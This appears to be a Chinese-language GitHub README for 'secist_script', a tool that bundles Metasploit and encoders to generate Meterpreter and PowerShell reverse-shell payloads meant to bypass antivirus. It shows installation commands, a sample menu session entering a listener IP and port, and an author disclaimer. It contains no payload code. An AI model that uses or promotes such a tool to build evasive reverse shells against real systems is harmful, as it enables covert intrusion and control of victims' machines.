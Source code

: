 
＃secist_script

由于传播，利用此脚本所提供的工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，即刻安全以及工具作者不为此承担任何责任。

#说明

此款工具借鉴

https://github.com/govolution/avet => avet

https://github.com/CroweCybersecurity/ps1encode => ps1encode

https://github.com/M4sc3r4n0/avoidz =>avoidz

web_delivery => msf

Invoke => powershell

#用法（Usage）：

git clone https://github.com/demonsec666/secist_script.git

sudo chmod -R 777 .

3  sudo ./setup.sh

4. sudo ./secist_script.sh

#例子 secist> 7

     < avoidz Payload >
      --------------------
                         \   ^__^             
                          \  (oo)\_______     
                             (__)\       )\/\ 
                                 ||----w |    
                                 ||     ||     
+------------++-------------------------++-----------------------+ 即刻安全周年庆版v1.6 (secist----2017.7.14)

        你的IP地址 :192.168.1.103
        系统版本 :Kali GNU/Linux Rolling \n \l
+------------++-------------------------++-----------------------+

    [1] Meterpreter_Reverse_tcp		 [5] Shell_reverse_tcp
    [2] Meterpreter_Reverse_http		 [6] Powershell_reverse_tcp
    [3] Meterpreter_Reverse_https		 [7] Multi encode payload
    [4] Meterpreter_Reverse_tcp_dns          [8] exit        
    [9] back meun     

                secist>  1
		         secist>请输入你的ip地址: 192.168.1.103
   secist>请输入你的端口: 4444
请稍等几分钟，您的烤鱼即将出炉=====================================》 ##################################################################

Tool To bypass most A.V - dev-labs

#作者（About Me）

即刻安全 => demon

博客 => www.ggsec.cn

团队博客 =>www.secist.com

Metasploit 系列教程 => 链接:https://pan.baidu.com/s/1dFzPkJZ 密码:evwg

Metasploit 系列教程 第八课=> www.ggsec.cn/MSF8-0.html
